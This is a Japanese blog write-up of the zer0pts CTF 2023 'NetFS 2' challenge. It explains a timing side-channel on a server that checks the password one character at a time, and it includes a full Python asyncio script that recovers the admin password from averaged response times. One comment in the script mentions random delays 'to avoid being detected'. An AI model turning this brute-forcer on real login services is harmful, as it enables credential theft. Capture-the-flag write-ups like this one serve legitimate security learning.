 ```yaml
---
author: "rand0m"
title: "zer0pts CTF 2023 Writeup"
date: "2023-07-17"
description: "hoge"
tags: [ "CTF", "Writeup", "zer0pts"]
categories: ["CTF", "Writeup" ]
draft: true
cover:
    image: "assets/head.png"
    relative: false
---
```



開催ありがとうございます！
zer0pts CTF 2023のwriteupです。今はmiscの問題の解説があります。

## Misc

### NetFS 1

タイミング攻撃を行う問題

### NetFS 2

Files:
- [netfs2.zip](./netfs2.zip)

NetFS 1の続き。
`server.py`の変更点が次の通り(画像で申し訳ない)。
![](./assets/diff1.png "`time.sleep`が追加されている。")
![](./assets/diff2.png "`wait()`が追加されている。`Timeout`の秒数が短くなっている。")

パスワードをそれぞれ1文字ずつ比較しているという点は変わっていなさそうです。


得られる情報が`time(input)`だったのものが`time(input)+rand_delta()`になったという認識です[要出典]。`time(input)`の周辺に分布しそうです。

![Alt text](assets/image.png "guestをguesから予想（guess）できるか試している様子。")
~~x軸とy軸が逆ではと思ってますが、実行するのが面倒なのでそのままにしてます。~~


平均を取ってみると、ちゃんと予想できることがわかります(お気持ち)。
実際に通信するコードを書きます。

* pwntoolsの`remote`を使うと、ブロックしてしまったので、`asyncio.open_connection`を使いました。
* また、`reset by peer`がリモートでのみ発生したので、`try-except`でリトライするようにしました。(これ、Exceptionの種類で判定できたらしい。なぜローカルで発生しなかったの...? )


<details>
<summary>code</summary> 


```python
import asyncio
import random
import string
import matplotlib.pyplot as plt

host = 'misc.2023.zer0pts.com'
# host = 'localhost'
port = 10022

USER = 'admin'
PASSWORD = ''
TIMEOUT = 8.0

for _ in range(len('0000000000000000')):
    task_performances = []

    async def tcp_echo_client(password) -> tuple[float, str]:
        # sleep for random time to avoid being detected
        await asyncio.sleep(random.random() * 10)

        reader, writer = await asyncio.open_connection(host, port)

        try:
            print(password, await asyncio.wait_for(reader.readuntil(b": "), timeout=TIMEOUT))
        except asyncio.TimeoutError:
            print(f'Timeout {password}, the remote server did not respond in time')
            # redo the connection
            writer.close()
            await writer.wait_closed()
            return await tcp_echo_client(password)
        writer.write((USER + "\n").encode())
        await writer.drain()
        try:
            await asyncio.wait_for(reader.readuntil(b": "), timeout=TIMEOUT)
        except asyncio.TimeoutError:
            print(f'Timeout {password}, the remote server did not respond in time')
            # redo
            writer.close()
            await writer.wait_closed()
            return await tcp_echo_client(password)

        writer.write(password.encode())
        await writer.drain()
        t_start = asyncio.get_event_loop().time()

        print(password, await asyncio.wait_for(reader.read(), timeout=TIMEOUT))

        t_end = asyncio.get_event_loop().time()
        delay = t_end - t_start

        print(password, delay, sep='\t')

        writer.close()
        await writer.wait_closed()

        task_performances.append((delay, password))

        return delay, password

    task_performances = []

    async def main():
        ret_task = []
        MAX_ITER = 5
        for cnt in range(MAX_ITER):
            try:
                tasks = [tcp_echo_client(PASSWORD + c) for c in string.digits + string.ascii_lowercase]
                await asyncio.gather(*tasks)
                ret_task.append(tasks)
                print(f"uouo: {cnt}/{MAX_ITER}")
            except Exception as e:
                print(f"Exception: {e}")
                cnt -= 1
                pass
        return ret_task

    tasks = asyncio.run(main())
    print(task_performances)

    # group task_performances by password
    task_performances2 = {}
    for task in task_performances:
        if task[1] not in task_performances2:
            task_performances2[task[1]] = []
        task_performances2[task[1]].append(task[0])

    task_performances = []
    for k, v in task_performances2.items():
        task_performances.append((sum(v) / len(v), k))

    # sort by delay
    task_performances.sort(key=lambda x: x[0])
    for task in task_performances:
        print(task)
        plt.scatter(task[0], task[1], label=task[1])

    plt.savefig(f"scatter_{host}_{len(PASSWORD)}.png", dpi=300)
    plt.clf()

    longest_task = min(task_performances, key=lambda task: task[0])
    print(f'Shortest task took {longest_task[0]}s with password {longest_task[1]}')
    PASSWORD += longest_task[1][-1]
    print(f"PASSWORD: {PASSWORD}")
print(f"PASSWORD: {PASSWORD}")

```

</details>

実行すると、flagが手に入りました。
![Alt text](assets/image2.png)
想定は、`/proc/self/stat`とか`/proc/pid/wchan`らしい。